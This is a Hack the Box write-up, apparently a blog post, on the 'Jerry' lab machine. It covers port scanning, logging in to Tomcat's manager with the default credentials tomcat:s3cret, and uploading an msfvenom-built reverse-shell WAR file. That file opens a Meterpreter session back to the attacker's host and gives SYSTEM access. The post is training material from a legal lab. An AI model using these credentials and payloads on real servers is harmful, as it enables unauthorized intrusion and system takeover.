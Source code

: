 ```yaml
---
layout: post
title:  "Hack the Box - Jerry"
date:   2018-07-30 23:23:00
categories: [walkthrough, htb]
comments: false
---
```

![HTB-jerry](/img/htb/jerry.png)

An easy box by mrh4sh.  Really simple box in the same venue as Lame, Blue, Grandma/Grandpa.  Great for those starting out to attempt.

{% highlight bash %}
meterpreter > sysinfo
Computer    : JERRY
OS          : Windows Server 2012 R2 6.3 (amd64)
Meterpreter : java/windows
meterpreter > getuid
Server username: JERRY$
meterpreter >
{% endhighlight %}

<!--more-->

## Discovery

Recently I discovered a pretty cool tool for discovery called `RECONNOITRE`.  I had been using Sparta in the past but I really liked how this one ran in the command line and saved its findings automatically.  

{% highlight bash %}
┌[ ~/hackthebox/boxes/retired ] [master !?]
└─> root@kali # reconnoitre -t  10.10.10.95 --services -o `pwd`
  __
|\"\"\"\-=  RECONNOITRE
(____)      An OSCP scanner by @codingo_

[+] Testing for required utilities on your system.
[#] Performing service scans
[*] Loaded single target: 10.10.10.95
[+] Creating directory structure for 10.10.10.95
   [>] Creating scans directory at: /root/hackthebox/boxes/retired/10.10.10.95/scans
   [>] Creating exploit directory at: /root/hackthebox/boxes/retired/10.10.10.95/exploit
   [>] Creating loot directory at: /root/hackthebox/boxes/retired/10.10.10.95/loot
   [>] Creating proof file at: /root/hackthebox/boxes/retired/10.10.10.95/proof.txt
[+] Starting quick nmap scan for 10.10.10.95
[+] Writing findings for 10.10.10.95
[*] Found HTTP/S service on 10.10.10.95:8080
[*] Found HTTP service on 10.10.10.95:8080
[*] TCP quick scans completed for 10.10.10.95
[+] Starting detailed TCP/UDP nmap scans for 10.10.10.95

{% endhighlight %}

Right away it found a web server running on TCP/8080, it also provides a couple of decent tips for how to procede in enumeration.  Note that sometimes the commands have syntax errors in them, probably something that is fixable...

{% highlight bash %}
[*] Found HTTP/S service on 10.10.10.95:8080
   [*] Enumeration
      [=] nikto -h 10.10.10.95 -p 8080 -output /root/hackthebox/boxes/retired/10.10.10.95/scans/10.10.10.95_8080_nikto.txt
      [=] curl -i 10.10.10.95:8080
      [=] w3m -dump 10.10.10.95/robots.txt | tee /root/hackthebox/boxes/retired/10.10.10.95/scans/10.10.10.95_8080_robots.txt
      [=] VHostScan -t 10.10.10.95 -oN /root/hackthebox/boxes/retired/10.10.10.95/scans/10.10.10.95_8080_vhosts.txt

[*] Found HTTP service on 10.10.10.95:8080
   [*] Enumeration
      [=] dirb http://10.10.10.95:8080/ -o /root/hackthebox/boxes/retired/10.10.10.95/scans/10.10.10.95_8080_dirb.txt
      [=] dirbuster -H -u http://10.10.10.95:8080/ -l /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-medium.txt -t 20 -s / -v -r /root/hackthebox/boxes/retired/10.10.10.95/scans/10.10.10.95_8080_dirbuster_medium.txt
      [=] gobuster -w /usr/share/seclists/Discovery/Web-Content/common.txt -u http://10.10.10.95:8080/ -s '200,204,301,302,307,403,500' -e | tee '/root/hackthebox/boxes/retired/10.10.10.95/scans/10.10.10.95_8080_gobuster_common.txt'
      [=] gobuster -w /usr/share/seclists/Discovery/Web-Content/CGIs.txt -u http://10.10.10.95:8080/ -s '200,204,301,307,403,500' -e | tee '/root/hackthebox/boxes/retired/10.10.10.95/scans/10.10.10.95_8080_gobuster_cgis.txt'

[*] Always remember to manually go over the portscan report and carefully read between the lines ;)
{% endhighlight %}

Browsing to http://10.10.10.95:8080/ we are greeted by Apache Tomcat, oh how I like Tomcat.  

![HTB-jerry](/img/htb/jerry/tcp8080.png)

By default old version of tomcat use `tomcat:s3cret` to authenticate.  There are a couple other defaults out there as well depending on the versions.  lets try those and see if that gives us access.

![HTB-jerry](/img/htb/jerry/tomcat-login.png)

Awesome, and we have the opportunity to upload our own WAR file.  This should make for an easy shell.  To create the malicious payload we can use msfvenom:

{% highlight bash %}
┌[ ~/hackthebox/www ] [master !?]
└─> root@kali # msfvenom -p java/meterpreter/reverse_tcp LHOST=10.10.14.17 LPORT=443 -f war > 10.10.14.17.mrtcp443.war
Payload size: 1083 bytes
Final size of war file: 1083 bytes


┌[ ~/hackthebox/www ] [master !?]
└─> root@kali #
{% endhighlight %}

I try to give my payloads a rather descriptive name for these CTF's in the event I need to rebuild or reuse one.   Scroll down to `WAR file to deploy` and upload the output of msfvenom.

![HTB-jerry](/img/htb/jerry/tomcat-backdoord.png)

And prepare a multi/handler to catch the session in Metasploit.  If you are trying to keep it Metasploit-free a netcat session would work here as well using the java/jsp_shell_reverse_tcp payload instead.  Click on the link for the name to get your shell.

{% highlight bash %}
msf5 exploit(multi/handler) > show options

Module options (exploit/multi/handler):

   Name  Current Setting  Required  Description
   ----  ---------------  --------  -----------


Payload options (java/meterpreter/reverse_tcp):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST  tun0             yes       The listen address (an interface may be specified)
   LPORT  443              yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Wildcard Target


msf5 exploit(multi/handler) > run

[*] Started reverse TCP handler on 10.10.14.17:443
[*] Sending stage (53906 bytes) to 10.10.10.95
[*] Meterpreter session 2 opened (10.10.14.17:443 -> 10.10.10.95:49194) at 2020-02-06 15:28:59 -0700

meterpreter > sysinfo
Computer    : JERRY
OS          : Windows Server 2012 R2 6.3 (amd64)
Meterpreter : java/windows
meterpreter > getuid
Server username: JERRY$
meterpreter >
{% endhighlight %}

Oh nice, immediatly system, no privesc for us.



{% highlight bash %}
meterpreter > shell
Process 1 created.
Channel 1 created.
Microsoft Windows [Version 6.3.9600]
(c) 2013 Microsoft Corporation. All rights reserved.

C:\apache-tomcat-7.0.88>cd C:\Users\Administrator\Desktop\flags
C:\Users\Administrator\Desktop\flags>type *
user.txt
700**************************d00

root.txt
04a**************************90e
C:\Users\Administrator\Desktop\flags>
{% endhighlight %}
